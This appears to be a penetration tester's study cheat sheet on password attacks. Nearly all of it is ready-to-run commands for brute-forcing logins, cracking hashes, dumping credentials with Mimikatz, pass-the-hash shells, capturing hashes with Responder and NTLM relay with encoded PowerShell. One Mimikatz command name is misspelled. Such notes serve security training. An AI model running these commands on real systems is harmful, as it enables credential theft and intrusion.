 ```yaml
---
layout: blank
pagetitle: Password Attacks
---
```


### Hydra
- Can be used on a lot of things
- SSH:
	- `sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}
	- Lets say we found a password, and want to spray it everywhere (like rdp)
		- `sudo hydra -L {username_list} -p {password} rdp://{IP}`
- HTTP:
	- Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
	- Could also likely just use ffuf (with a filter on size if app returns 200)

### Passwords
- AES is symmetric, RSA is asymmetric
- GPUs crack like a thousand times faster than CPUs

### Finding Passwords
- Just use noseyparker. Can scan file systems, cloned repositories, and even entire github organizations.
    - `noseyparker scan {repo/directory}`
    - `noseyparker scan --github-org={org}`
    - Show results with `noseyparker report`
- Make sure to save or delete the existing `datastore.np` before starting a new scan

### Password Cracking
- Mutating Wordlists:
	- https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file
	- Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords
	- `hashcat -r "$1 c $!" {password_list}` will capitalize the first letter of each password, append "1" to the end of each password, and then append "!" to the end of that password
		- Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password
		- Hashcat provides some rules in `/usr/share/hashcat/rules/`, like `rockyou-30000`
			- They always seem to use `best64.rule`
	- These modifications can be stored in files and used when cracking--for example:
		- `hashcat -m 0 {hash} {password_list} -r {modification_file} --force`
- Ensure to find the type of hash before cracking to save time
- Extracting hashes:
	- Many methods, but here's a novel one:
		- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` will search for kdbx files (KeePass files) containing hashes
		- keepass2john {keepass_database_file} to extract hash
- Determining hash type:
	- `hashcat --help` will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with `hashcat --help | grep -i "{identifier}`
		- This should return the hashcat mode for the hash, which is a number like 13400
- Cracking the hash:
	- `hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force`
		- Increase speed with `-O -w 4 --opencl-device-types 1,2`

### SSH Private Key Passphrase
- `ssh2john {private RSA SSH key file} > ssh.hash` will put the hash in a crack-able format
- `hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force` will crack the SSH hash
	- 22921 comes from looking up \$6$ in the `hashcat --help` response
	- However, this might result in an error due to this cipher not being supported by hashcat
- John the Ripper 
	- Can handle the error above
	- Can use mutation rules, placed at the end of /etc/john/john.conf
	- `john --wordlist={password_list} --rules=sshRules {hash}` to crack

### NTLM
- NT LAN Manager or Net-NTLMv2
- Windows stores hashed passwords in the Security Account Manager (SAM) database file
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) can extract password hashes from memory as a basic user
	- Prebuilt version [here](https://github.com/gentilkiwi/mimikatz/releases)
	- Can dump plaintext passwords straight as an Administrator
	- Run with `.\mimikatz.exe`
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sukurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
- Crack NTLM
	- `hashcat -m 1000 {hash} {password_list} -r {mutations} --force`
- **Passing NTLM**
	- Don't necessarily need to crack the NTLM hash to use it
		- NTLM hashes aren't salted between sessions and remain static
	- Many tools available:
		- SMB enumeration: `smbclient` and `crackmapexec`
		- Command execution: `impacket` -> `psexec.py\/wmiexec.py`
		- `Mimikatz` can also pass-the-hash
	- Example - accessing SMB share with `smbclient`
		- `smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}`
	- Example2 - getting a shell as an Administrator with `psexec.py`
		- Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it
		- `impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}` 
		- `impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}`
		- `impacket-smbexec -hashes lmhash:nthash {domain}/{user}@{IP}`
		- `impacket-atexec -hashes lmhash:nthash {domain}/{user}@{IP} {command}`
- Cracking Net-NTLMv2
	- Useful when we are an unprivileged user
	- We have the target start authentication against a machine we own, and capture the hash used during the authentication process
	- *Responder* is a good tool for capturing Net-NTLMv2 hashes
		- Sets up an SMB server that handles auth process and prints hashes
		- `sudo responder -I {network interface (like tap0)}` to run responder on any given network interface
	- Getting the target server to contact our server is tricky
		- With RCE, it's easy, just run something like `dir \\{Our_machine_IP}\share` on the machine running the responder server
			- Then, crack the hash with hashcat 5600
		- Without RCE, there are a couple different techniques
			- If there's a file upload on a webserver on the target, we can use a UNC path (`\\{our_IP}\share\xyz)` and the application may try to reach out for the file
				- This might not work if the slashes are the wrong way, so try something like `//{IP}/share.php` as the filename
			- I'd assume local file inclusion would have the same result
	- **Relay Attack**
		- Lets say you're in a situation where you're on a local admin account, but it's an admin on a different machine. Additionally, we can't crack the hash from the admin. 
		- Instead of printing the hash, forward it along using *ntlmrelayx*
		- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c "powershell -enc {base64_command}"`
			- This will set up an SMB relay to the IP with a powershell command to run
			- Run SMB `dir` from the machine we own against the *ntlmrelayx* machine, which will immediately pass the hash received onto the target machine